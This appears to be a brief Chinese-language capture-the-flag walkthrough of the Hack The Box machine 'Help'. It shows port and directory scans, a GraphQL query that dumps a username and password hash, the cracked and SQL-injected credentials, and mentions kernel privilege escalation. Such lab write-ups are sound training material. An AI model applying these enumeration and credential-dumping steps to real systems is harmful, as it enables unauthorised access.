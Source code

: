# nmap 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).

```

# dirsearch

### 80端口

扫目录先扫到http://10.10.10.121/support，继续扫扫到下面这些目录，在readme中找到版本号为1.0.2

```
[16:57:41] 200 -  378B  - /support/.gitattributes                           
[16:59:14] 200 -    1KB - /support/favicon.ico                              
[16:59:25] 200 -    0B  - /support/images/
[16:59:34] 200 -    7KB - /support/LICENSE.txt                              
[17:00:08] 200 -    3KB - /support/README.md                                
[17:00:08] 200 -    3KB - /support/readme.html 
```

该版本存在SQL注入和任意文件上传

sql注入需要登录

### 查看3000端口

查看响应头服务器正在运行express框架

搜到express js query language可以查到graphql

使用graphql语法查询即可得到username和password

```
http://10.10.10.121:3000/graphql?query={user{username,password}}
```



```
username	"helpme@helpme.com"
password	"5d3c93182bb20f07b994a7f617e99cff"
```

```
helpme@helpme.com：godhelpmeplz
```

### sql注入

登录后进行ticket上传，注入点就在上传的文件下载的路径的param[]参数

sql注入得到admin密码

```
admin：Welcome1
```

ssh连接尝试多个用户名，最后help成功登录，

该版本存在内核漏洞，内核提权即可